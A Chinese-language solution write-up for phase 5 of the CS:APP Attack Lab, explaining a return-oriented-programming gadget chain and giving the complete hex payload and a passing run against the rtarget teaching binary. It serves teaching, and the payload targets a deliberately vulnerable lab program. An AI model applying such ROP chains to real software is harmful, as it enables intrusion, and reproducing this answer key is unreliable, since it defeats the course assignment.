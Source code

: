 其汇编如下,也就是说我们需要把rsp赋值给rdi,然后把bias赋值给rsi,这样就得到了最终的字符串首地址,把rax再赋值给rdi即可

```txt
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

这里的bias我们现在不能确定,应该是整个流程需要的指令数量确定了之后才可以计算出来

那么整个思路其实已经比较清晰了,只需要再对着这个表格搜索需要的就可以了

> 注意使用 movl 以及后面如果是双字节的nop指令(andb/orb)也可以利用

本题答案唯一,只使用farm.c中的函数没有其他的走法,寄存器的转移是固定的,这里就不再一一分析了,直接给出本题答案

整个过程调用如下图所示

![20221111002949](https://raw.githubusercontent.com/learner-lu/picbed/master/20221111002949.png)

由此可以计算出 bias 的值应该为 `0x48`

所以本题答案为

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```

```bash
root@da1811a84ddc:~/csapp/03Attack Lab/target1# ./hex2raw < 5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```
